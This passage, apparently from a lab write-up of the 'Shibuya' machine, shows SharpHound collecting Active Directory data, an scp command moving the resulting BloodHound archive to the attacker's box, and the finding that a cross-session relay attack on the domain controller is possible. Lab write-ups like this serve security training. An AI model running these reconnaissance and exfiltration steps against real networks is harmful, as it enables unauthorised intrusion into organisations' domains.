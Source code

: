 Running Sharphound to gather the LDAP data.

```powershell
.\SharpHound.exe -c All
```

![image.png](/assets/images/Shibuya_VL/image%2012.png)

Transferring this file to our attacker box using scp.

```powershell
scp -i /root/.ssh/id_ed25519 simon.watson@shibuya.vl:c:/users/simon.watson/20251030090820_BloodHound.zip .
```

![Screenshot_20251030_214603.png](/assets/images/Shibuya_VL/Screenshot_20251030_214603.png)

Analysing this file in bloodhound and marking authenticated users as owned.

The Useful part picked up from bloodhound is we can perform a cross session relay attack on the DC.

![image.png](/assets/images/Shibuya_VL/image%2013.png)
